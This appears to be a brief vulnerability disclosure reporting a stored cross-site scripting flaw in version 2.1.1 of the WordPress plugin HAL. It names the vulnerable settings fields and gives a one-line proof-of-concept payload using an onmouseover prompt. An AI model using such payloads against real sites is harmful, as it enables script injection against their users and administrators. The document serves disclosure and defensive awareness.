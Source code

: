 # Exploit Title: WrodPress Plugin HAL —— Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/hal/
# Version :  V 2.1.1
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. HAL》Type of Id，Phone，Expiration cache (minutes) and other ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/HAL.gif)  
